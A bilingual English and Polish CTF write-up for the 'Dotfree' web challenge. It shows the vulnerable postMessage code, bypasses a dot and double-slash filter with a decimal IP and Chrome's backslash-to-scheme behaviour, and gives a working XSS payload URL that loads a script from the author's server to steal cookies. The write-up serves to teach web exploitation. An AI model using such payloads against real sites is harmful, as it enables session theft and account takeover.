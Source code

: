 # Dotfree (web, 48 solved, 105p)

```
All the IP addresses and domain names have dots, but can you hack without dot?

http://13.57.104.34/

```
[PL](#PL)

In this simple challenge we can see a form with one field for URL, suggesting the XSS attack. A quick glance at the source code:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

So appending the following JSON to the URL:
```
?{"iframe":{"value":"something"}}
```
will load and execute the script from the URL provided. We'd like to load the script from controlled server, but first we need to bypass some banned characters: dot (`.`), double slash (`//`) and unicode dot (`。`)

We can bypass the first one by putting our ip address in decimal form:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
The next problem is to make browser load the script from remote server without using `http://` prefix. That one we can bypass using one of chrome features (as we believe that's the browser the bot is using) - putting double backslash as a URL prefix will be replaced with current schema - in this case `http://`. What's worth to mention, it works like this only on linux. In windows version of chrome `\\` is replaced with `file://`

Final payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
will load and exec code hosted in our server. Now we just need to write a simple script to steal cookies and we get the flag:
```
rwctf{L00kI5TheFlo9}
```

The unicode dot on the list of blacklisted characters is something worth to mention. It's the protection against abusing another chrome's feature that's good to know - in URLs it's treated just like a plain ASCII dot, what has been used in simplexss challenge in 0CTF 2017 quals.
# PL

W tym prostym i przyjemnym zadanku dostajemy formularz przyjmujący od nas URL-a - co sugeruje konieczność znalezienia XSS-a. Szybki rzut oka na źródła:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

Wynika z tego, że doklejenie JSON-a formatu:
```
?{"iframe":{"value":"something"}}
```
do adresu spowoduje załadowanie i wykonanie skryptu z podanego URL-a. Chcielibyśmy w tym momencie załadować skrypt z kontrolowanego przez nas serwera, jednak przeszkodą są tu filtry na niedozwolone znaki: kropkę (`.`), podwójny slash (`//`) i unicodową kropkę (`。`).

Filtr na kropkę ominiemy podając adres naszego serwera w postaci decymalnej:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
Kolejnym problemem jest zmuszenie przeglądarki, żeby załadowała skrypt ze zdalnego serwera bez możliwości użycia prefiksu `http://`. Ten filter omijamy wykorzystując pewną własność przeglądarki chrome (którą, miejmy nadzieję, wykorzystuje bot) - podanie dwóch backslashy na początku URL-a zostanie podmienione na obecny scheme - w tym przypadku `http://`. Co ciekawe, dzieje się tak tylko pod linuksem - w windowsowej wersji `\\` zostanie zmienione na `file://`.

Ostateczny payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
spowoduje załadowanie i wykonanie kodu hostowanego na naszym serwerze. Teraz wystarczy napisać prosty skrypt kradnący ciastka i dostajemy flagę:
```
rwctf{L00kI5TheFlo9}
```

Warto zwrócić uwagę na obecność unicode'owej kropki na liście zabronionych znaków. Jest to zabezpieczenie przed wykorzystaniem kolejnej cechy chrome'a, którą warto znać - w przypadku URL-i taki znak zostanie zinterpretowany jako zwykła kropka, co zostało wykorzystane w zadaniu simplexss z kwalifikacji 0CTF 2017.

